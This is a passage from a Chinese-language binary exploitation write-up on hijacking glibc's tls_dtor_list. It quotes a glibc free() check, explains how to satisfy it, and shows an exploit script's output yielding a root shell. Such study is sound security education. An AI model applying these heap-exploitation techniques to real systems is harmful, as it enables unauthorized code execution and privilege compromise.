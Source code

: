 ```c
if (have_lock
	    || ({ assert (locked == 0);
		  mutex_lock(&av->mutex);
		  locked = 1;
		  chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
		    || chunksize (chunk_at_offset (p, size)) >= av->system_mem;
	      }))
	  {
	    errstr = "free(): invalid next size (fast)";
	    goto errout;
	  }
```
所以你可以正常执行完puts('/bin/sh')，但是无法执行system函数。解决办法是先分配一个小的堆块，让ain_arena.system_mem不等于0。
```shell
gdb-peda$ p main_arena.system_mem 
$1 = 0x2100
```
最后执行脚本我们可以得到一个shell。
```shell
root@w0lfzhang666:/home/w0lfzhang/Desktop/TLS# python tls_dtor_list.py
[+] Starting local process './tls': Done
[*]mapped_addr: 0x7ffff7ede010
pwning....
Got a shell!
[*] Switching to interactive mode
/bin/sh
$ id
uid=0(root) gid=0(root) groups=0(root)
$  
```
这种方法利用起来虽然有那么一点困难，但是一旦能覆盖tls_dtor_list指针，那就几乎可以随心所欲的"做坏事"了。


## Links
https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c
